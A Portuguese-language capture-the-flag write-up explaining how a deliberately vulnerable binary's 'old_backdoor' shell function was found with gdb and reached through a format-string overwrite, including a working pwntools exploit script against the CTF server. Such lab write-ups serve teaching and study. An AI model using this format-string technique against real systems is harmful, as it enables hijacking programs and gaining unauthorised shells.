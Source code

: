 ## CTF EXTRA

### Primeiro usamos checksec no programa

![Compilar](fotos/ff1.png)

### Chegando à conclusão que escrever na Stack ia ser dificil.


### Usamos o gdb e usamos o comando info functions onde nos foi possivel ver todas as funções presentes no código:

![Compilar](fotos/ff3.png)

### Dentro do gdb há uma ferramenta chamada disas que nos permite analisar as funções, ao analisar a função old_backdoor vimos uma system call que pode abrir uma shell

![Compilar](fotos/ff4.png)

### Sendo assim, nós queremos correr essa função e precisamos de direcionar o programa para aí.

### Para isso começamos a fazer debug usando gdb program, fazendo um breakpoint no main e executando o programa com 'run'. Em seguida fizemos jump_old_backdoor para saltar para a função que quermos, e fizemos ni para ver o proximo passo até descobrir se a systemcall era bin/bash ( se era uma shell):

![Compilar](fotos/ff5.png)
![Compilar](fotos/ff6.png)
![Compilar](fotos/ff7.png)
![Compilar](fotos/ff8.png)

### Verificamos então que se tratava mesmo de uma shell.

### Agora precisamos de saber qual é o endereço em que precisamos de dar overwrite para dar jump para esta função.

### Encontramos um jump para o endereço 0x0804c010

### Construimos um exploit que rescreve a função old_backdoor para esse endereço usando format strings.


```python

from pwn import *

LOCAL = False

if LOCAL:
    pause()
else:
    p = remote("ctf-sp.dcc.fc.up.pt", 4007)

#0x08049236  old_backdoor

N = 60
content = bytearray(0x0 for i in range(N))

content[0:4]  =  (0xaaaabbbb).to_bytes(4, byteorder='little')
content[4:8]  =  (0x0804c012).to_bytes(4, byteorder='little')
content[8:12]  =  ("????").encode('latin-1')
content[12:16]  =  (0x0804c010).to_bytes(4, byteorder='little')

s = "%.2036x" + "%hn" + "%.35378x%hn"

fmt  = (s).encode('latin-1')
content[16:16+len(fmt)] = fmt

p.recvuntil(b"here...")
p.sendline(content)
p.interactive()

```

### Corremos o exploit, e na shell fizemos cat flag.txt.

![Compilar](fotos/final1.png)
![Compilar](fotos/final2.png)
